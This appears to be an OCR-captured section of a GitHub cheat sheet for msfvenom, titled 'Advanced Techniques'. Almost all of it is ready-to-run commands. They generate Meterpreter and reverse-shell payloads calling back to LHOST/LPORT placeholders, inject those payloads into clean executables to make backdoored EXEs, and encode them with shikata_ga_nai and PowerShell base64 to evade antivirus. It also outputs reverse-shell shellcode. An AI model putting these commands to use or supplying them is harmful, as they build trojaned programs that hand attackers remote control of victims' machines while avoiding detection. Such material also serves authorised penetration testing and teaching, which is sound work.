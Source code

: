 
## ⚙️ Advanced Techniques

### List Available Options
```bash
# List all payloads
msfvenom --list payloads

# List encoders
msfvenom --list encoders

# List formats
msfvenom --list formats

# Show payload options
msfvenom --payload-options -p windows/meterpreter/reverse_tcp
```

### Backdoor Legitimate Executables
```bash
# Inject payload into existing EXE
msfvenom -x /path/to/clean.exe -k -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > backdoored.exe

# Template injection (preserves functionality)
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} --template /path/to/clean.exe -f exe > injected.exe
```

### Encoding for AV Evasion
```bash
# Single encoding with Shikata Ga Nai
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -e x86/shikata_ga_nai -i 5 -f exe > encoded.exe

# Multiple encoders
msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -e x86/shikata_ga_nai -e x86/alpha_mixed -i 3 -f exe > multi_encoded.exe

# PowerShell Base64 encoding
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -e cmd/powershell_base64 -i 3 -f psh > encoded.ps1
```

### Generate Shellcode
```bash
# C format shellcode
msfvenom -p windows/exec CMD="calc.exe" -f c

# Python format
msfvenom -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f python

# Raw shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shellcode.bin
```

---